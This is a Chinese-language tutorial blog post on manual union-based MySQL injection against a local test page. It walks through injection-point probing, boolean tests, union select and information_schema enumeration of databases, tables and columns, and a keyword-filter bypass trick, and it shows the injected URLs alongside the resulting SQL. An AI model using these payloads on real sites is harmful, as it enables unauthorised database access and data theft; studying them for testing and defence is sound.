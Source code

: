 ```yaml
---
title: mysql注入
date: 2016-12-01T23:11:44+08:00
draft: false
toc: true
comments: true
aliases:
  - /detail/31
  - /detail/31/
tags:
  - sql
---
```


### 0、样例链接

http://127.0.0.1/sql.php?id=1

### 1、步骤

1. 查看是否存在注入点
2. 使用`union`sql关键字来获取数据
3. 通过查询information_schema数据库元数据如存在什么数据库、什么表、什么数据
4. 联合union和select获取数据
5. 若存在sql关键字检测替换可以：selselectect

### 2、查看是否存在注入点

#### （1）添加单引号`'`

http://127.0.0.1/sql.php?id=1' 报错
原理：

```sql
select * from user where id=1'
```

#### （2）添加 `and 1=1` `' and '1'='1`、和 `and 1=2`、 //返回不同页面

* http://127.0.0.1/sql.php?id=1 and 1=1

原理：

```sql
select * from user where id=7 and 1=1;
```

* http://127.0.0.1/sql.php?id=1 and 1=2

原理：

```sql
select * from user where id=7 and 1=2;
```

* http://127.0.0.1/sql.php?username=b' and '1'='1

原理：

```sql
#正常语句
select * from user where username='b';
注入后语句
select * from user where username='b' and '1'='1';
```

#### （3）使用`or 2>1`和`or 1>2`返回不同页面

略

### 3、查看`union`查看`information_schema`数据库

#### （1）union试探

http://127.0.0.1/sql.php?id=7 union select 1, 'a', 1, 1, 1
原理：

```sql
select * from user where id=7 union select 1, 'a', 1, 1, 1;
```

#### （2）查看有几个数据库

http://127.0.0.1/sql.php?id=7 union select 1,SCHEMA_NAME, 1, 1, 1 from  information_schema.SCHEMATA

```sql
select * from user where id=7 union select 1,SCHEMA_NAME, 1, 1, 1 from  information_schema.SCHEMATA;
```

#### （3）查看数据库中有几张表

查看test数据库表信息
http://127.0.0.1/sql.php?id=7 union select 1,TABLE_NAME, 1, 1, 1 from  information_schema.TABLES where TABLE_SCHEMA='test'

原理

```sql
select * from user where id=7 union select 1,TABLE_NAME, 1, 1, 1 from  information_schema.TABLES where TABLE_SCHEMA='test';
返回
+----+----------+------+------+--------+
| id | username | age  | sex  | salary |
+----+----------+------+------+--------+
|  7 | b        |   18 | 3    |   NULL |
|  1 | user     |    1 | 1    |   1.00 |
+----+----------+------+------+--------+
```

#### （4）查看表中的字段

查看test数据库的user表的字段
http://127.0.0.1/sql.php?id=7 union select 1,COLUMN_NAME, 1, 1, 1 from  information_schema.COLUMNS where TABLE_SCHEMA='test' and TABLE_NAME='user'
原理

```sql
select * from user where id=7 union select 1,COLUMN_NAME, 1, 1, 1 from  information_schema.COLUMNS where TABLE_SCHEMA='test' and TABLE_NAME='user';
```

### 4、查看指定表的数据即可

略，类似上

